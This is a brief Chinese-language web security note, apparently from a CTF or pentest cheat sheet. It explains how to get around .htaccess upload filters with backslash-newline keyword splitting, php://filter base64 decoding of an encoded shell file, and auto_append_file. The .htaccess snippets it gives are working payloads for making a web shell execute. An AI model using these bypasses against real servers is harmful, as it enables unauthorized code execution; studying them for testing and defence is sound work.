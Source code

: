 #### 1.1 过滤了.htaccess常用的关键字

如果过滤了.htaccess常用的关键字，此时可以使用反斜线来绕过对关键字的过滤，反斜线后需要加上换行符，并且反斜线前和关键字无空格

例如：

```
AddT\
ype application/x-httpd-php .abc
```



#### 1.2 过滤了`<?`等php字符串

如果检测不能含有`<?`等php字符串，那么此时可先将shell字符串进行编码，然后在文件包含时通过`php://filter`解码：

![img](assets/t0131a681178bf98a67.png)

```
php://filter/read=convert.base64-decode/resource=2.abc
```



也可以直接写在htaccess文件中

```
AddType application/x-httpd-php .wuwu
php_value auto_append_file "php://filter/convert.base64-decode/resource=shell.wuwu"
```



#### 1.3 直接进行其他编码

通过UTF-7、UTF-16等进行编码
